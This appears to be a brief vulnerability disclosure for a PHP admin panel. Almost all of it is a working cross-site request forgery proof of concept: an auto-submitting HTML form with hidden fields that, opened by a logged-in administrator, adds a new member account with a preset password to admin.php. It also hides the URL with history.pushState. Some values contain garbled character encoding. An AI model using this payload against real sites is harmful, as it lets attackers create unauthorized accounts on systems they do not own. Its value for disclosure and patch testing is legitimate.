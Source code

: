 After the administrator logged in, open the following page

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.33.62.73:8080/admin.php?" method="POST">
      <input type="hidden" name="moduleid" value="2" />
      <input type="hidden" name="file" value="index" />
      <input type="hidden" name="action" value="add" />
      <input type="hidden" name="post&#91;regid&#93;" value="5" />
      <input type="hidden" name="post&#91;username&#93;" value="1234567" />
      <input type="hidden" name="post&#91;passport&#93;" value="" />
      <input type="hidden" name="post&#91;password&#93;" value="qwe123" />
      <input type="hidden" name="post&#91;cpassword&#93;" value="qwe123" />
      <input type="hidden" name="post&#91;email&#93;" value="123111&#64;123&#46;com" />
      <input type="hidden" name="post&#91;truename&#93;" value="1111" />
      <input type="hidden" name="post&#91;gender&#93;" value="1" />
      <input type="hidden" name="post&#91;areaid&#93;" value="1" />
      <input type="hidden" name="post&#91;department&#93;" value="" />
      <input type="hidden" name="post&#91;career&#93;" value="" />
      <input type="hidden" name="post&#91;mobile&#93;" value="" />
      <input type="hidden" name="post&#91;qq&#93;" value="" />
      <input type="hidden" name="post&#91;wx&#93;" value="" />
      <input type="hidden" name="post&#91;wxqr&#93;" value="" />
      <input type="hidden" name="post&#91;ali&#93;" value="" />
      <input type="hidden" name="post&#91;company&#93;" value="" />
      <input type="hidden" name="post&#91;type&#93;" value="" />
      <input type="hidden" name="post&#91;thumb&#93;" value="" />
      <input type="hidden" name="post&#91;catid&#93;" value="" />
      <input type="hidden" name="post&#91;business&#93;" value="" />
      <input type="hidden" name="post&#91;size&#93;" value="" />
      <input type="hidden" name="post&#91;regunit&#93;" value="äººæ&#176;&#145;å&#184;&#129;" />
      <input type="hidden" name="post&#91;capital&#93;" value="" />
      <input type="hidden" name="post&#91;regyear&#93;" value="" />
      <input type="hidden" name="post&#91;address&#93;" value="" />
      <input type="hidden" name="post&#91;postcode&#93;" value="" />
      <input type="hidden" name="post&#91;telephone&#93;" value="" />
      <input type="hidden" name="post&#91;fax&#93;" value="" />
      <input type="hidden" name="post&#91;mail&#93;" value="" />
      <input type="hidden" name="post&#91;homepage&#93;" value="" />
      <input type="hidden" name="post&#91;gzh&#93;" value="" />
      <input type="hidden" name="post&#91;gzhqr&#93;" value="" />
      <input type="hidden" name="post&#91;sell&#93;" value="" />
      <input type="hidden" name="post&#91;buy&#93;" value="" />
      <input type="hidden" name="post&#91;content&#93;" value="&lt;br&#32;type&#61;&quot;&#95;moz&quot;&#32;&#47;&gt;" />
      <input type="hidden" name="post&#91;edittime&#93;" value="1" />
      <input type="hidden" name="submit" value="ç&#161;&#174;&#32;å&#174;&#154;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
